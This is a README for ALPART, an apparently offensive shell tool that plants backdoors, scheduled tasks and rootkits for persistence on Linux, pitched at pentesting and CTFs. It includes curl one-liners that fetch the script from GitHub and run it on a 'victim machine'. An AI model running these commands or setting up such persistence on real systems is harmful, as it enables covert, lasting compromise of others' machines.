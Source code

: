 # ALPART [![license: MIT](https://img.shields.io/github/license/b0o/tmux-autoreload?style=flat&color=green)](https://mit-license.org)

<div align="center">Automatic Linux Persistence And Rootkit Tool</div>


[![asciicast](https://asciinema.org/a/567894.svg)](https://asciinema.org/a/567894)

## About the project

This shell script offers an interactive menu with multiple options to do persistence on a Linux system, which makes it ideal for Pentesting or CTFs. In addition, it is compatible with bash, sh, ash and zsh in case the victim does not have bash.

To get started, simply run the script in a terminal and choose from the various options available to create backdoors, scheduled tasks, rootkits and other persistence techniques. This script is easy to use and is designed to save time and increase efficiency in Pentesting or CTFs situations.

## Execution

Upload script to victim machine and start it with bash or any available shell

```bash
bash ALPART.sh
```
```bash
sh ALPART.sh
```
```bash
zsh ALPART.sh
```
```bash
ash ALPART.sh
```

or download from original repo and execute

```bash
curl -fsSL https://raw.githubusercontent.com/T1erno/ALPART/master/ALPART.sh -O ; bash ALPART.sh
```
```bash
curl -fsSL https://raw.githubusercontent.com/T1erno/ALPART/master/ALPART.sh -O ; sh ALPART.sh
```

### To do

- Add moar methods
- Check compatibility with other shells 
- ~~Buy milk and eggs~~
- Add optargs for a no interactive execution


### Contributing

Code contributions always are welcome :^)
For contributing, please use dev branch for your changes.

### Reporting a bug

If you find a bug please open an issue. When reporting a bug, it's helpful to provide as much information as possible so that others can reproduce the error and offer suggestions f
or a solution. Here are some things you might want to consider including in your bug report:

- A description of the problem
- Steps to reproduce the problem
- Screenshots or screen recordings if applicable
- The version of your operating system and any relevant software
- Any error messages or stack traces that you received
- Any additional context that might be helpful in understanding the problem

The more information you provide, the easier it will be for others to understand and address the issue :^)

### Disclaimer
This tool is provided for educational and research purposes only. Use of this tool on any system without the explicit permission of the system owner is illegal and strictly prohibited. The author is not responsible for any damages or consequences that may arise from the use of this tool. The user is responsible for complying with all applicable local, state and federal laws and regulations. Use of this tool is at your own risk and responsibility.

### Sources

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md

